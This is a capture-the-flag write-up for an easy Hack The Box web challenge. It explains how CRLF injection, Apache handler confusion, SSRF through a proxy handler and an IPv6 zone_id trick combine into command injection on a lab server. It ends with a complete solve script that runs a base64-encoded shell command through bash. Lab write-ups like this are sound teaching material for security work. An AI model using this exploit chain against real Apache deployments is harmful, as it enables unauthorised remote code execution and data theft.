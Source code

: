 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 80%;' align=left /> <font size='10'>Cyber Attack</font>

2<sup>nd</sup> February 2025

Prepared By: `Souvlakia`

Challenge Author(s): `Souvlakia`

Difficulty: <font color='orange'>Easy</font>

<br><br>


# Synopsis

- The challenge involves a code injection vulnerability, through an SSRF caused by a handler confusion that happens in non-latest versions of Apache.

## Description 

- Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart.
Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world.
Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all.
The shadows are watching.
Make your move.

## Skills Required

- Basic understanding of Apache's Architecture
- Basic understanding of CRLF Header Injection
- Basic Url Encoding knowledge

## Skills Learned 

- Performing Handler Confusion Attacks on Apache.
- Perfoming SSRF attacks and double URL encoding.
- Python's `ipaddress.ip_address` accepts IPv6 addresses with zone_ids.

# Enumeration 

## Analyzing the source code

- Opening the source code, we can see that the challenge is running an Apache server with an `index.php` file and a `cgi-bin` directory. The cgi files are written in Python and are used to interact with the server.
- Index page is a simple form that takes a Name and a Domain/IP address as input.
![img](assets/1.png)
- Filling out the form we see that the `Attack an IP` button is disabled. As it says, it is only allowed for *trusted* users.
![img](assets/2.png)

Looking at the code of `index.php`: 
```javascript
const isLocalIP = (ip) => {
    return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};

const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";
```
- So if it's a local IP the button is enabled.

Buttons:
- Attack a domain: Visits the `/cgi-bin/attack-domain.py`
- Attack an IP: Visits the `/cgi-bin/attack-ip.py`

Looking at the code of `attack-domain.py`:
```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```
- The code is simple, it checks if the target is a domain and then pings it.
  
- Looking at the code of `attack-ip.py`:
```python
...
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
...
```
- Similar to the previous code, but this time it validates if the target is an IP address by calling the `ip_address` function.


Checking the Apache configuration file:
```apache
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```
- The `attack-ip` location is only allowed for local IPs.
- The application sets the `application/x-httpd-php` type for `.php` files.


- Thoughts:
  - The parameters in the cgi scripts are not sanitized but only checked. If we could bypass either of the checks, we could exploit the system by injecting code.
  - Since there is a local only page, we try to think of a possible SSRF attack.

# Solution 

## Finding the vulnerability 

- The cgi-bin files on error print the name of the user. This can lead to a CRLF injection.
```python
print(f'Location: ../?error=Hey {name}, watch it!')
```

- The application adds a Type for the `.php` files instead of securely setting the handler. This can lead to handler confusion as explained [here](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#🔥-3-Handler-Confusion).
- This vulnerability is now fixed for the most part in the latest versions of Apache. But we can see that the docker image is running an older version of Apache.
- This can lead to full GET SSRF attacks which gets us to the next step.
- The `ip_address` function is used to verify if the target is an IP address. As explained in [this](https://blog.slonser.info/posts/ipv6-zones/) post, we can *bypass* this by giving an IPv6 adress with a `%` sign followed by our payload.

## Exploitation 

- We begin with the handler confusion via CRLF injection. We can inject a new header to the response with the name parameter.
- Example:
```python
handler = 'server-status'

r =  get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(r.text)
```
- The cgi response has a new header `Content-Type: server-status` which means the handler is now set to a prebuilt `server-status` handler.
- The response text is indeed the server status page.

- We can now perform a SSRF attack by setting the handler to `proxy:http://127.0.0.1/cgi-bin/attack-ip`.

Some issues:
- The get parameters of the `attack-ip` page need to be url encoded.
- The zone_id of the IPv6 address needs to be url encoded as well, so we double encode it.
- We cant have `/` in the zone_id.
- The proxy seems to append a `/var/www/html` to the url so we a dummy parameter catches this. 

### Getting the flag 
- The flag is located at `/flag-<random>.txt` so we can use a command to get the flag and write it to a file in the webroot.
- Solve script:
```python
from requests import get
url = 'http://localhost:1337'

def quote(s):
    return ''.join([f'%{hex(ord(c))[2:]}' for c in s])
def dquote(s):
    return quote(quote(s))

from base64 import b64encode
payload = b64encode(b'cat /flag* > /var/www/html/flag.txt').decode()

handler = f'proxy:http://127.0.0.1/cgi-bin/attack-ip?name=asfs{quote('&')}target=::1{dquote(f"%; echo \"{payload}\" | base64 -d | bash")}{quote('&')}dummy='

get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(get(f'{url}/flag.txt').text)
```

